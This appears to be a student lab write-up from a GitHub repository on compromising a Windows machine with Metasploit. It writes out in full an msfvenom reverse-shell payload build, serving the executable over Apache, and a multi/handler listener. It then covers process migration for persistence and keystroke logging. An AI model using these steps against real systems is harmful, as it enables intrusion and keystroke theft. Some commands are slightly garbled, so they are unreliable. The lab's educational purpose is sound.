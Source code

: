 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![Screenshot 2024-04-27 225958](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/4f2f69c1-b13b-46d1-9606-88d9dd94ff1c)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![Screenshot 2024-04-27 230125](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/00c06398-5fc2-45e5-8d37-930015471760)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-27 230222](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/200832f8-179c-4755-98dc-556e43ea369d)

Start apache server sudo systemctl apache2 start

![Screenshot 2024-04-27 230325](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/5688706c-7032-48f8-a69a-706710b22494)

Check the status of apache2

![Screenshot 2024-04-27 230353](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/70e79ec5-be33-45d6-9b52-22ddcfe6cbcc)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![Screenshot 2024-04-27 230538](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/9e242c40-3eb1-4bd2-83dc-78e0188b544b)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![Screenshot 2024-04-27 230606](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/a0a99630-57d8-45ec-8c1e-e49fe63780e1)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-27 230745](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/dba3c593-d134-4154-a2c9-0d9a2bfaf7f2)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-27 230906](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/c8f21288-a15b-4b27-bf02-f65e6eb9dd71)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-27 230951](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/74e7a655-4097-4c59-ad23-acc7e3eff712)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-27 231001](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/22256fb8-f1a1-4648-ab81-80b8ac442359)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
